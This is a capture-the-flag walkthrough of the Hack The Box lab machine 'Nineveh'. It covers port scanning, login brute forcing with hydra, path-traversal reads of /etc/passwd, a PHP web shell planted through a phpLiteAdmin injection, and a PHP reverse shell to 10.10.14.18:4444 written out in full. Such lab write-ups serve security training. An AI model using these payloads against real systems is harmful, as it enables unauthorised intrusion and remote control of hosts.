 # Nineveh

**Machine ip:** 10.10.10.43

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.43 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.43`
+ `sudo nmap -Pn -sV -sC -sU -p$ports 10.10.10.43`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b0a28bb0-1ce5-4555-b8ea-43c6cb74d925)

+ `nineveh.htb` subdomain discovered.
+ Add: `echo "10.10.10.43 nineveh.htb" >> /etc/hosts`
+ Check for subdomains, and there is nothing.
```
wfuzz -c -u http://10.10.10.43/ -H "Host: FUZZ.nineveh.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hh 178
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/74415df0-f7e4-44e6-bf1c-6f634abeb157)

+ **Firstly**, navigate to `http://nineveh.htb/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c2011036-a4ab-432c-a4ad-ff243b9dcd85)

+ Directory fuzzing:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://nineveh.htb/ -x asp,aspx,cgi,htm,html,js,json,jsp,php,pl,py,sh -b 403,404
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6e68ff8c-ecb5-49c5-9e96-bf3c5facc224)

+ Navigate to `http://nineveh.htb/department/login.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ef0dda2e-fd83-4edf-bcce-864d10ac9c29)

+ Page view source. **admin** and **amrois** users discovered on **http://nineveh.htb/department/login.php**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2ffc5eeb-eb9f-46a3-a9f2-e1dc57192d63)

+ Brute force using the wordlist: `/usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000.txt`
```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e7a8f92b-97ca-4876-8cd3-84091385722d)

+ `admin`:`1q2w3e4r5t` credentials discovered on **http://nineveh.htb/department/login.php**


+ **Secondly**, navigate to `https://nineveh.htb/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/27f0d95d-b1e2-4e72-b56d-b8746e2e7505)

+ Check SSL certificate status: `curl https://nineveh.htb/ -vkI`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bf1f60d7-c3fd-40ba-81f1-7891c0b4b2f7)

+ `admin` username discovered on **https://nineveh.htb/db/**

+ Directory fuzzing:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u https://nineveh.htb/ -x php,htm,html -b 403,404 -k
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/34694892-72fd-468e-80f8-28492c074369)

+ Navigate to `https://nineveh.htb/db/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7e71e97a-0e14-4f5d-9b7d-65f8b6759cd5)

+ `searchsploit phpliteadmin 1.9`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4c1cf7ee-61d0-4f0e-bab8-46f67b876537)

+ [PHPLiteAdmin 1.9.3 - Remote PHP Code Injection requires authentication](https://www.exploit-db.com/exploits/24044)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d9322e69-d1ee-4397-8419-26f919a5e2a5)

+ Capture the login request on Burp proxy.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/810117ad-cc91-492e-a8a8-bd2c8ee34b80)

+ Send to intruder, and set the payloads.
+ Brute force using the wordlist: `/usr/share/seclists/Passwords/twitter-banned.txt`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5725fbfc-755a-438c-8500-071ee78463e5)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/55fafbd0-eb21-431a-be79-3db22feed399)

+ `admin` username and `password123` password discovered on **https://nineveh.htb/db/**

## Exploitation
+ Navigate to `http://nineveh.htb/department/login.php`
+ Loging with credentials `admin`:`1q2w3e4r5t`
+ Navigate to `http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt`
+ Check the path whether is vulnerable to LFI.
+ Use the LFI payload: `../../../../../../../etc/passwd`
```
http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../etc/passwd

http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt../../../../../../../etc/passwd
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d6c83b59-310c-4bf9-8d2f-94b4d6771a15)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4a8c5328-264a-4fa1-8c3a-bab57c4e932b)

+ Keep going on chain.

+ Okay go back to [PHPLiteAdmin 1.9.3 - Remote PHP Code Injection requires authentication](https://www.exploit-db.com/exploits/24044) on **https://nineveh.htb/db/** again.
+ Login with `password123`
+ Create new database.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a511a89f-9e10-49dd-b1fa-134d3c64f2e9)

+ Create new table and go.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3bef59a1-f7cd-4e47-91d6-40712f3933b8)

+ Fill out field and default value, then create.
+ `<?php echo system($_REQUEST["cmd"]); ?>` payload for create.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/88cb1f74-3847-45f5-a6e5-e68caaa0a9d0)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e727b1cf-9c79-4476-95a5-44f07e721400)

+ Navigate to `http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt../../../../../../../etc/passwd` for /var/tmp/try.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/840b2abb-ea07-404a-8182-00ed1357adf5)

+ Change the file and payload:
```
http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt/../../../../var/tmp/try.php&cmd=id;ls;pwd
```

+ The code executed.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/52b322d4-6962-4189-93e7-e4097102cfb9)

+ Reverse shell payload `php -r '$sock=fsockopen("10.10.14.18",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`
+ [url encoding](https://www.url-encode-decode.com/) the payload:
```
php+-r+%27%24sock%3Dfsockopen%28%2210.10.14.18%22%2C4444%29%3Bexec%28%22%2Fbin%2Fsh+-i+%3C%263+%3E%263+2%3E%263%22%29%3B%27
```

+ Start listener: ``nc -lnvp 4444` on yoru attack machine.
+ Execute command:
```
http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt/../../../../var/tmp/try.php&cmd=php+-r+%27%24sock%3Dfsockopen%28%2210.10.14.18%22%2C4444%29%3Bexec%28%22%2Fbin%2Fsh+-i+%3C%263+%3E%263+2%3E%263%22%29%3B%27
```

+ Get shell.
+ Stable shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
script /dev/null -c bash
CTRL^Z
stty raw -echo; fg
reset
terminal type? xterm
export TERM=xterm  
export SHELL=bash

```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bffc80ba-8ed6-4c9a-99d4-8ca0c6533fd1)

+ **www-data** doesn't have read permission: `ls -l /home/amrois/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ca14a5be-2b4c-4845-a4bf-df1920bf9209)


+ Donwload [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) and transfer it to the target.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fd7bf5da-cae9-49fe-bf09-f0a1be5f1cb7)






# References & Alternatives:
+ https://vvmlist.github.io/#nineveh
+ https://0xdf.gitlab.io/2020/04/22/htb-nineveh.html
+ 
